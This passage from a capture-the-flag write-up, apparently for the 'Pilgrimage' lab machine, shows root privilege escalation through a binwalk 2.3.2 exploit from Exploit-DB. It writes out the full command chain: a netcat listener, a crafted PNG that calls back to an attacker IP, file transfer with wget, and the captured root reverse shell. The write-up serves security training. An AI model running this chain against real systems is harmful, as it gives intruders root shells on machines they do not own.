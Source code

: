 We will enumerate the version of binwalk first:
```shell
binwalk --help

Binwalk v2.3.2
Craig Heffner, ReFirmLabs
https://github.com/ReFirmLabs/binwalk

Usage: binwalk [OPTIONS] [FILE1] [FILE2] [FILE3] ...
<SNIP>
```
Now that we know that the target is using the binwalk version 2.3.2, we will use Google to search for an exploit.

The following exploit took our attention:

https://www.exploit-db.com/exploits/51249

We can use searchsploit to download it directly:
```shell
searchsploit -m 51249

# And examine the exploit to see how to use it
python3 51249.py -h
```

After examining the exploit help parameter and code, we find out we can successfully carry out the privilege escalation running the following commands:
```shell
# Start nc listener
nc -lvnp 8443

# Create .png image
convert -size 100x100 xc:white privesc.png

# Run the exploit as follow
python3 51249.py privesc.png 10.10.14.206 8443

# Start python server on Kali where binwalk_exploit.png is located
python3 -m http.server 7000

# Use wget from the target machine to get the binwalk_exploit.png file there
wget http://10.10.14.206:7000/binwalk_exploit.png

# Move binwalk_exploit.png to the directory where malwarescan.sh is running files
cd /var/www/pilgrimage.htb/shrunk
cp /home/emily/binwalk_exploit.png .

# After copying the file into the /shrunk folder, we will get a response in our nc listener. We can also upgrade our shell using python
listening on [any] 8443 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.143.44] 57984
whoami
root
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@pilgrimage:~/quarantine#
```
### Root Flag
Now we can get the root.txt flag:
```shell
cat /root/root.txt
```